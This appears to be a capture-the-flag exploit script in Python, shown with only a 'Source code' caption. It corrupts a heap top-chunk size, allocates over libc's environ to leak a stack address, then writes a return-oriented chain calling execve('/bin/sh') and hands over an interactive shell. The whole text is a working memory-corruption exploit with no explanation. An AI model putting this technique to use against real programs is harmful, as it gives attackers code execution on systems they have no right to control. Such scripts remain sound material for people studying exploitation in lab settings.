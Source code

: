 ```python

edit(0, 0x20, b"A" * 0x18 + p64(0x20D91))

topchunk = heap + 0x22B20

edit(3, 0xD80, b"A" * 0xD78 + p64(-1, sign=True))

size_ = heap + 0x10 - 0x20 - topchunk
info(size_)
add(size_)  # 5

add(0x210)  # 6
edit(
    6,
    0x210,
    flat(
        [
            b"\x07" * 64,
            [
                libc.sym["environ"],  # 0x20
            ],
        ]
    )
    + b"\n",
)

add(0x10)  # 7

show(7)
recvu(b": ")

stack = uu64(recvn(6)) - 0x128
success(stack)
edit(
    6,
    0x210,
    flat(
        [
            b"\x07" * 64,
            [
                libc.sym["environ"],  # 0x20
                stack,
            ],
        ]
    )
    + b"\n",
)

add(0x20)  # 8

pop_rdi_ret = next(libc.search(asm("pop rdi; ret")))
pop_rsi_ret = next(libc.search(asm("pop rsi; ret")))
pop_rdx_ret = next(libc.search(asm("pop rdx; ret")))
system_ = libc.sym["execve"]
binsh = next(libc.search(b"/bin/sh"))
dbg()
edit(
    8,
    0x50,
    flat([pop_rdi_ret, binsh, pop_rsi_ret, 0, pop_rdx_ret, 0, system_]) + b"\n",
)
ia()
```